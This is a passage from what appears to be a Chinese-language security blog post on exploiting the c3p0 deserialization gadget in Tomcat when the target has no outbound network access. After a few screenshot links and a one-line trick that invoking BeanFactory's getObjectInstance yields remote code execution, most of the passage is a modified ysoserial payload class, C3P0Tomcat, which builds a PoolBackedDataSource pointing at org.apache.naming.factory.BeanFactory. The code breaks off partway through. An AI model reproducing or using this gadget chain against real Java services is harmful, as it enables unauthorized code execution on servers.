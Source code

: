![image-20220512004053837](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220512004053837.png)

然后

![image-20220512004239649](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220512004239649.png)

接下来就是dddd。

## 不出网利用

小trick:实例化BeanFactory对象调用`getObjectInstance`可以rce，`参考JNDI高版本在tomcat下的利用`。

[c3p0不出网利用](https://mp.weixin.qq.com/s?__biz=MzkzNTI4NjU1Mw==&mid=2247483871&idx=1&sn=56c63dc3f4dc22ad9c61143ee2c484df&chksm=c2b103a9f5c68abfb8e6cb39e81210cce98a3a6850c69b756b7018bc0db829d00af08839d8fc&mpshare=1&scene=23&srcid=1009lg8jEvc5MFXslLojyUud&sharer_sharetime=1644428964407&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)

```java
package ysoserial.payloads;


import java.io.PrintWriter;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.naming.StringRefAddr;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;

import com.mchange.v2.c3p0.PoolBackedDataSource;
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;

import org.apache.naming.ResourceRef;
import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;


/**
yulegeyu modified
 */
@PayloadTest ( harness="ysoserial.test.payloads.RemoteClassLoadingTest" )
@Dependencies( { "com.mchange:c3p0:0.9.5.2" ,"com.mchange:mchange-commons-java:0.2.11"} )
@Authors({ Authors.MBECHLER })
public class C3P0Tomcat implements ObjectPayload<Object> {
    public Object getObject ( String command ) throws Exception {

        PoolBackedDataSource b = Reflections.createWithoutConstructor(PoolBackedDataSource.class);
        Reflections.getField(PoolBackedDataSourceBase.class, "connectionPoolDataSource").set(b, new PoolSource("org.apache.naming.factory.BeanFactory", null));
        return b;
    }

    private static final class PoolSource implements ConnectionPoolDataSource, Referenceable {

        private String className;
        private String url;

        public PoolSource ( String className, String url ) {
```